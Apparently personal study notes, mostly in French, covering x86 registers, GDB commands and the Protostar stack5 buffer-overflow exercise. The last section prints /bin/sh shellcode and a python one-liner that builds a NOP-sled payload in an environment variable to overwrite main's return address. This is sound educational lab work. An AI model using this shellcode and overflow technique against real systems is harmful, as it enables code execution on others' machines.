






# Note ASM86

* [EIP](http://www.c-jump.com/CIS77/ASM/Instructions/I77_0040_instruction_pointer.htm): Instruction Pointer Register 
* [ESP](http://www.c-jump.com/CIS77/ASM/Stack/S77_0040_esp_register.htm): The ESP register serves as an indirect memory operand pointing to the top of the stack at any time.
* EBP: ebp is/was for a stack frame so that when you entered a function ebp could get a copy of esp at that point, everything on the stack before that happens, return address, passed in parameters, etc and things that are global for that function (local variables) will now be a static distance away from the stack frame pointer for the duration of the function. esp is now free to wander about as the compiler desires and can be used when nesting to other functions (each needs to preserve the ebp naturally). 

# Memo GDB

* [https://cs.brown.edu/courses/cs033/docs/guides/gdb.pdf](https://cs.brown.edu/courses/cs033/docs/guides/gdb.pdf)

Lancer `gdb`:

	gdb <program>

Set a breakpoint at the start of `main`:

	b[reak] main

Set a breakpoint to a given address:

	b[reak] *0x123456789

Remove a breakpoint:

	d[elete] <breakpoint number>

Run the program:

	r[un] [arg1 [arg2] ...]

Set the display:

	display/3i $eip

Unset the display:

	undisplay/3i $eip

Step into (next instruction): 

	si

> Execute one machine instruction, then stop and return to the debugger. 

Skip a function call:

	ni

> Execute one machine instruction, but if it is a function call, proceed until the function returns. 

Get out of a function:

	fin[ish]

Print a value:

	print main

# Stack5

## Présentation

[https://web.archive.org/web/20170419023355/https://exploit-exercises.com/protostar/stack5/](https://web.archive.org/web/20170419023355/https://exploit-exercises.com/protostar/stack5/)

	0x080483c4 <main+0>:	push   ebp
	0x080483c5 <main+1>:	mov    ebp,esp
	0x080483c7 <main+3>:	and    esp,0xfffffff0
	0x080483ca <main+6>:	sub    esp,0x50
	0x080483cd <main+9>:	lea    eax,[esp+0x10]
	0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
	0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
	0x080483d9 <main+21>:	leave  
	0x080483da <main+22>:	ret  

## Représentation

> Veuillez noter que `0x40 = 64` et `char buffer[64]`. On réserve 64 octets.

## Exploitation

Sur [ce site](http://shell-storm.org/shellcode/files/shellcode-827.php)
, on trouve un exploit:

	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

Il faut:
* injecter le code de l'exploit dans le processus.
* modifier la case mémoire qui contient l'adresse de retour de la fonction `main()`. Il faut y injecter l'adresse du code qui contient l'exploit.

La case mémoire qui contient l'adresse de retour de la fonction `main()` se situe à `x + 0x44` octets de la variable `buffer`.

Pour injecter le code de l'exploit dans le processus, nous passons par l'intermédiaire d'une variable d'environnement.

Pour créer la variable d'environnement:

	python -c 'print "\x90" * (0x44+x) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > file
	ls -l file
	export MA_VARIABLE=$(cat file)

Avec `x` = 4, 8 ou 12.

If `x=4`:

	python -c 'print "\x90" * (0x44 + 0x4) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > file

> * Il faut relancer le programme après création/modification de la variable d'environnement.
> * "\x90" est le code de l'instruction `NOP`.

Pour connaître l'adresse du code qui contient l'exploit:

	x/1000s $esp

